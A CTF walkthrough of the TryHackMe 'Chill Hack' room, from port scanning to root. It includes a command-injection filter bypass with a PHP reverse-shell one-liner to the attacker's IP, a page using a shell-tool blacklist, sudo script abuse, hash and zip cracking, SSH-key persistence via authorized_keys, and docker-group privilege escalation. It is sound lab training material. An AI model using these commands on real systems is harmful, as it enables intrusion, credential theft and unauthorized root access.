


# Chill Hack

## Introduction

Easy level CTF.  Capture the flags and have fun!

Link to the box [here](https://tryhackme.com/room/chillhack).

## Writeup


First of all, I scanned all the available ports on the host.

```
$ nmap -p- 10.10.193.17
Starting Nmap 7.80 ( https://nmap.org ) at 2023-05-11 16:50 CEST
Nmap scan report for 10.10.193.17
Host is up (0.046s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 17.24 seconds

```

After that I performed a deeper scan on the open ports, to find out the active services.

```
$ nmap -sC -sV -p 21,22,80 10.10.193.17
Starting Nmap 7.80 ( https://nmap.org ) at 2023-05-11 16:50 CEST
Nmap scan report for 10.10.193.17
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.15.73
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.35 seconds

```

And finally, I ran a scan using `nmap`'s `vuln` script to find any vulnerabilities in the services.

```
$ nmap --script vuln -p 21,22,80 10.10.193.17
Starting Nmap 7.80 ( https://nmap.org ) at 2023-05-11 16:51 CEST
Nmap scan report for 10.10.193.17
Host is up (0.046s latency).

PORT   STATE SERVICE
21/tcp open  ftp
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown: 
22/tcp open  ssh
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
80/tcp open  http
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /secret/: Potentially interesting folder
| http-fileupload-exploiter: 
|   
|_    Couldn't find a file-type field.
| http-internal-ip-disclosure: 
|_  Internal IP Leaked: 127.0.1.1
| http-sql-injection: 
|   Possible sqli for queries:
|_    http://10.10.193.17:80/js/pp_images%5bset_position%5d;break;case"youtube":f=l(movie_width,movie_height),movie_id=o("v",pp_images[set_position]),""==movie_id&&(movie_id=pp_images[set_position].split("youtu.be/"),movie_id=movie_id[1],movie_id.indexOf("?%22%29=%27%20OR%20sqlspider
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.

Nmap done: 1 IP address (1 host up) scanned in 38.36 seconds
```
I discovered that the `ftp` service allows anonymous login, i.e. you can authenticate with the `anonymous` user and any password.

```
$ ftp 10.10.217.61
Connected to 10.10.217.61.
220 (vsFTPd 3.0.3)
Name (10.10.217.61:ale): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||44992|)
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||33583|)
150 Opening BINARY mode data connection for note.txt (90 bytes).
100% |**************************************************************************************************************************************************************|    90      641.53 KiB/s    00:00 ETA
226 Transfer complete.
90 bytes received in 00:00 (0.86 KiB/s)
ftp> bye

```
On the `ftp` server I only found a `note.txt` file with a message from user `apaar` that some filters have been applied.

```
$ cat note.txt
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```


`nmap` also found a suspicious path `/secret/`. At this address there's a form where I can enter bash commands.

<div><p align="center"></div>


The filtering on commands doesn't allow me to obtain reverse shell easily, so I used the [commix](https://github.com/commixproject/commix) tool to get a reverse shell. Through the developer tools in firefox I got the request packet that is sent to the server and I gave it as input to `commix`.

```
POST /secret/ HTTP/1.1
Host: 10.10.163.229
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: http://10.10.163.229
Connection: keep-alive
Referer: http://10.10.163.229/secret/
Upgrade-Insecure-Requests: 1

command=whoami

```

```
$ python3 ~/tools/commix/commix.py -r req
                                      __           
   ___   ___     ___ ___     ___ ___ /\_\   __  _   
 /`___\ / __`\ /' __` __`\ /' __` __`\/\ \ /\ \/'\  v3.8-dev#11
/\ \__//\ \/\ \/\ \/\ \/\ \/\ \/\ \/\ \ \ \\/>  </  
\ \____\ \____/\ \_\ \_\ \_\ \_\ \_\ \_\ \_\/\_/\_\ https://commixproject.com
 \/____/\/___/  \/_/\/_/\/_/\/_/\/_/\/_/\/_/\//\/_/ (@commixproject)

+--
Automated All-in-One OS Command Injection Exploitation Tool
Copyright © 2014-2023 Anastasios Stasinopoulos (@ancst)
+--

(!) Legal disclaimer: Usage of commix for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

[17:03:33] [info] Parsing HTTP request using the 'req' file.  
[17:03:33] [info] Testing connection to the target URL. 
[17:03:34] [info] Performing identification checks to the target URL.
[17:03:34] [info] Setting POST parameter 'command' for tests.
[17:03:35] [info] Heuristic (basic) tests shows that POST parameter 'command' might be injectable (possible OS: 'Unix-like').
[17:03:38] [info] Testing the (results-based) classic command injection technique.           
[17:03:38] [info] POST parameter 'command' appears to be injectable via (results-based) classic command injection technique.
           |_ whoami;echo XEBOGF$((56+24))$(echo XEBOGF)XEBOGF
POST parameter 'command' is vulnerable. Do you want to prompt for a pseudo-terminal shell? [Y/n] > Y
Pseudo-Terminal Shell (type '?' for available options)
commix(os_shell) > whoami
www-data
commix(os_shell) > 

```

In this way I got a sort of shell, very limited, but it was useful to get more information on the machine. In particular, I found `index.php` file.

```php
<html>
<body>

<form method="POST">
        <input id="comm" type="text" name="command" placeholder="Command">
        <button>Execute</button>
</form>
<?php
        if(isset($_POST['command']))
        {
                $cmd = $_POST['command'];
                $store = explode(" ",$cmd);
                $blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
                for($i=0; $i<count($store); $i++)
                {
                        for($j=0; $j<count($blacklist); $j++)
                        {
                                if($store[$i] == $blacklist[$j])
				{?>
					<h1 style="color:red;">Are you a hacker?</h1>
					<style>
						body
						{
							background-image: url('images/FailingMiserableEwe-size_restricted.gif');
							background-position: center center;
  							background-repeat: no-repeat;
  							background-attachment: fixed;
  							background-size: cover;					
	}	
					</style>
<?php					 return;
				}
                        }
                }
		?><h2 style="color:blue;"><?php echo shell_exec($cmd);?></h2>
			<style>
                             body
                             {
                                   background-image: url('images/blue_boy_typing_nothought.gif');  
				   background-position: center center;
  				   background-repeat: no-repeat;
  				   background-attachment: fixed;
  				   background-size: cover;
}
                          </style>
	<?php }
?>
</body>
</html>

```

From this file I understood what kind of filtering is applied, the forbidden commands are present in a blacklist and are simply compared with the input string.

To bypass the filtering I used the escape character `\`. So I listened with netcat and entered this command in html form to get a php shell.

```
p\h\p -r '$sock=fsockopen("10.9.15.73,4444);exec("/bin/s\h -i <&3 >&3 2>&3");'
```
Et voila, now I can continue my research with a more stable shell.
```
$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.217.61 39404
/bin/sh: 0: can't access tty; job control turned off
$ whoami 
www-data
$ 
```
Through the `sudo -l` command, I found that the `www-data` user can execute the `.helpline.sh` file with the permissions of the `apaar` user. 
```
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
$ 
```

I tried running the script with sudo permissions, but still had a little problem.

```
$ sudo bash .helpline.sh
sudo: no tty present and no askpass program specified
```

So I ran `python3 -c 'import pty; pty.spawn("/bin/bash")'` command that is used to spawn an interactive shell with pseudo-terminal (PTY) capabilities from within a Python session. It is often used in situations where a user wants to upgrade their current shell session to a more interactive and feature-rich shell.

```
$ python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@ubuntu:/var/www/html/secret$
```

Now I need a way to get a shell via the `.helpline.sh` file, but the `www-data` user doesn't have write permissions on the file, so I can't edit it.

```bash
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"

```

With this script I can insert commands in the `$msg` variable because it is a user-input variable that is later executed as a command in the script. The value provided by the user in the `$msg` variable is treated as a command and executed using the shell interpreter.

```
www-data@ubuntu:/var/www/html/secret$ sudo -u apaar /home/apaar/.helpline.sh
sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: Batman
Batman
Hello user! I am Batman,  Please enter your message: /bin/bash
/bin/bash
whoami
whoami
apaar

```

In this way I could read the `local.txt` file and get the first flag.

```
cat local.txt
{***************************************}
```

Next I downloaded and ran `linpeas.sh` on the victim machine and it found two open ports that nmap didn't show, as they are only reachable from `localhost`.

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:9001          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                      
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   

```

I ran quickly curl request on `127.0.0.1:9001` and I obtain this html page.

```html
<html>
<body>
<link rel="stylesheet" type="text/css" href="style.css">
	<div class="signInContainer">
		<div class="column">
			<div class="header">
				<h2 style="color:blue;">Customer Portal</h2>
				<h3 style="color:green;">Log In<h3>
			</div>
			<form method="POST">
				                		<input type="text" name="username" id="username" placeholder="Username" required>
				<input type="password" name="password" id="password" placeholder="Password" required>
				<input type="submit" name="submit" value="Submit">
        		</form>
		</div>
	</div>
</body>
</html>
```

It looks like a login page. To find where this file was saved within the filesystem I looked for the `style.css` file, which is called via the link tag, using the `find` command.

```
apaar@ubuntu:~$ find / -name style.css 2>/dev/null
find / -name style.css 2>/dev/null
/var/www/html/style.css
/var/www/files/style.css

```
In the `/var/www/files` directory there are three different php files and in the `index.php` file there is the password to access the database.

```php
<html>
<body>
<?php
	if(isset($_POST['submit']))
	{
		$username = $_POST['username'];
		$password = $_POST['password'];
		ob_start();
		session_start();
		try
		{
			$con = new PDO("mysql:dbname=webportal;host=localhost","root","********");
			$con->setAttribute(PDO::ATTR_ERRMODE,PDO::ERRMODE_WARNING);
		}
		catch(PDOException $e)
		{
			exit("Connection failed ". $e->getMessage());
		}
		require_once("account.php");
		$account = new Account($con);
		$success = $account->login($username,$password);
		if($success)
		{
			header("Location: hacker.php");
		}
	}
?>
<link rel="stylesheet" type="text/css" href="style.css">
	<div class="signInContainer">
		<div class="column">
			<div class="header">
				<h2 style="color:blue;">Customer Portal</h2>
				<h3 style="color:green;">Log In<h3>
			</div>
			<form method="POST">
				<?php echo $success?>
                		<input type="text" name="username" id="username" placeholder="Username" required>
				<input type="password" name="password" id="password" placeholder="Password" required>
				<input type="submit" name="submit" value="Submit">
        		</form>
		</div>
	</div>
</body>
</html>

```
So I connected to the database using the `mysql` command and I found the credentials of the `Apaar` and `Anurodh` users on the system in the `users` table.

```
mysql> show tables;
show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
1 row in set (0.00 sec)

mysql> select * from users;
select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)

```

Since the passwords are saved in md5 format I couldn't read them, so I used [crackstation](https://crackstation.net/) to try to decrypt them.

<div><p align="center"></div>

I tried to use these passwords to change my user in hopes that `Anurodh` has higher permissions, but apparently these passwords are only for the service on port `9001`, or they are useless.

Now I needed to access this server via browser. One way I can do this is to create an [ssh tunnel](https://linuxize.com/post/how-to-setup-ssh-tunneling/), but I needed the password of the `apaar` user and I didn't have that password. So I used `ssh-keygen` command to  create a key pair and I inserted the public key in the `authorized_keys` file.

```
apaar@ubuntu:~/.ssh$ ssh-keygen -t rsa
ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/apaar/.ssh/id_rsa): 

Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in /home/apaar/.ssh/id_rsa.
Your public key has been saved in /home/apaar/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:/GEXaLvuuVSfk1DpDQ1OeGvJlm63uqQI2Z5Ug2Oi90I apaar@ubuntu
The key's randomart image is:
+---[RSA 2048]----+
|             .o  |
|           ..o.+ |
|          o .o=+.|
|       . ... +Bo |
|       .S++o++. .|
|      .E=oo=.ooo.|
|     ..+ o+  o=..|
|      ..=oo.o  o |
|        .*=o oo  |
+----[SHA256]-----+

apaar@ubuntu:~/.ssh$ cat id_rsa.pub >> authorized_keys
cat id_rsa.pub >> authorized_keys

```

After downloading the private key on my local machine and changing its permissions with the `chmod 600 id_rsa` command, I created an ssh tunnel to port `9001` to access the hidden service.
```
$ ssh -i id_rsa -L  9001:127.0.0.1:9001 apaar@10.10.117.98
```

So I could reach the website on my localhost.

<div><p align="center"></div>

I entered the credentials of the `Anurodh` user and I was redirected to this page, on the `hacker.php` file.

<div><p align="center"></div>

The message that appears says "Look in the dark! You will find your answer". I downloaded the image to my local machine and inspected it with the `steghide` command.

[Steghide]((https://steghide.sourceforge.net/)) is a steganography program that is able to hide data in various kinds of image- and audio-files. The color- respectivly sample-frequencies are not changed thus making the embedding resistant against first-order statistical tests. 

```
$ steghide extract -sf hacker-with-laptop_23-2147985341.jpg 
Enter passphrase: 
wrote extracted data to "backup.zip".

```
I found a hidden backup archive in the image that requires a password to extract it.
```
$ unzip backup.zip 
Archive:  backup.zip
[backup.zip] source_code.php password:

```
Since I didn't know the password I started my kali container and inside it I used `zip2john` to extract the cryptographic hash from the password-protected ZIP file, and used I `john` with `rockyou` wordlist to find the password.
```
┌──(root㉿7b538d2eb0e0)-[/]
└─# zip2john backup.zip > hash
ver 2.0 efh 5455 efh 7875 backup.zip/source_code.php PKZIP Encr: TS_chk, cmplen=554, decmplen=1211, crc=69DC82F3 ts=2297 cs=2297 type=8

┌──(root㉿7b538d2eb0e0)-[/home]
└─# john --wordlist=rockyou-75.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**********        (backup.zip/source_code.php)     
1g 0:00:00:00 DONE (2023-05-15 10:25) 50.00g/s 1228Kp/s 1228Kc/s 1228KC/s 123456..201086
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

The archive contained a login form in php and in one of the if branches there was an hardcoded password in base64 format.

```php
<html>
<head>
	Admin Portal
</head>
        <title> Site Under Development ... </title>
        <body>
                <form method="POST">
                        Username: <input type="text" name="name" placeholder="username"><br><br>
			Email: <input type="email" name="email" placeholder="email"><br><br>
			Password: <input type="password" name="password" placeholder="password">
                        <input type="submit" name="submit" value="Submit"> 
		</form>
<?php
        if(isset($_POST['submit']))
	{
		$email = $_POST["email"];
		$password = $_POST["password"];
		if(base64_encode($password) == "******************")
		{ 
			$random = rand(1000,9999);?><br><br><br>
			<form method="POST">
				Enter the OTP: <input type="number" name="otp">
				<input type="submit" name="submitOtp" value="Submit">
			</form>
		<?php	mail($email,"OTP for authentication",$random);
			if(isset($_POST["submitOtp"]))
				{
					$otp = $_POST["otp"];
					if($otp == $random)
					{
						echo "Welcome Anurodh!";
						header("Location: authenticated.php");
					}
					else
					{
						echo "Invalid OTP";
					}
				}
 		}
		else
		{
			echo "Invalid Username or Password";
		}
        }
?>
</html>

```
From the "Welcome Anurodh" message it is clear that the password is linked to the `anurodh` user, so I tried to use this password to switch users on the machine and I was successful.
```
apaar@ubuntu:~$ su - anurodh
Password: 
anurodh@ubuntu:~$
```

In the `anurodh` user folder there is only the php file that I had already obtained through the zip archive. So I ran `linpeas` again to see if there were any different results, and as I'd hoped the tool immediately gave great results.

<div><p align="center"></div>

The user anurodh is part of the `docker` group.

[Docker](https://www.docker.com/) is a tool designed to make it easier to create, deploy, and run applications by using containers. Containers allow a developer to package up an application with all of the parts it needs, such as libraries and other dependencies, and deploy it as one package.

There are two key points to know in order to perform privilege escalation techniques with docker:
* By default, any machine container is run with root privileges (ie. you have root privileges inside the container). It means that any user (by default, any member of the “docker” group) who has access to the Docker Daemon has root privileges in the container. 
* Sometimes you will want to remove a container and rerun it because you updated the image (or changed the Dockerfile). If you need to remove a container, data changes you made are not persistent. We usually mount a host directory to access persistent data from the container.

You can find more information about it [here](https://flast101.github.io/docker-privesc/).

```
anurodh@ubuntu:~$ docker run -it -v /:/home alpine:latest
/ # whoami
root
```
So I created a new container using the `alpine` image already present on the machine and I mounted the entire filesysetm as a volume. In this way I had access to the entire filesystem with root permissions and at this point it was easy to get the flag.
```
/home/root # ls -l
total 4
-rw-r--r--    1 root     root          1385 Oct  4  2020 proof.txt
/home/root # cat proof.txt 


					{**************************************************}


Congratulations! You have successfully completed the challenge.


         ,-.-.     ,----.                                             _,.---._    .-._           ,----.  
,-..-.-./  \==\ ,-.--` , \   _.-.      _.-.             _,..---._   ,-.' , -  `. /==/ \  .-._ ,-.--` , \ 
|, \=/\=|- |==||==|-  _.-` .-,.'|    .-,.'|           /==/,   -  \ /==/_,  ,  - \|==|, \/ /, /==|-  _.-` 
|- |/ |/ , /==/|==|   `.-.|==|, |   |==|, |           |==|   _   _\==|   .=.     |==|-  \|  ||==|   `.-. 
 \, ,     _|==/==/_ ,    /|==|- |   |==|- |           |==|  .=.   |==|_ : ;=:  - |==| ,  | -/==/_ ,    / 
 | -  -  , |==|==|    .-' |==|, |   |==|, |           |==|,|   | -|==| , '='     |==| -   _ |==|    .-'  
  \  ,  - /==/|==|_  ,`-._|==|- `-._|==|- `-._        |==|  '='   /\==\ -    ,_ /|==|  /\ , |==|_  ,`-._ 
  |-  /\ /==/ /==/ ,     //==/ - , ,/==/ - , ,/       |==|-,   _`/  '.='. -   .' /==/, | |- /==/ ,     / 
  `--`  `--`  `--`-----`` `--`-----'`--`-----'        `-.`.____.'     `--`--''   `--`./  `--`--`-----``  


--------------------------------------------Designed By -------------------------------------------------------
	        		                	|  Anurodh Acharya |
				                       	---------------------

	               		     Let me know if you liked it.

Twitter
	- @acharya_anurodh
Linkedin
	- www.linkedin.com/in/anurodh-acharya-b1937116a

```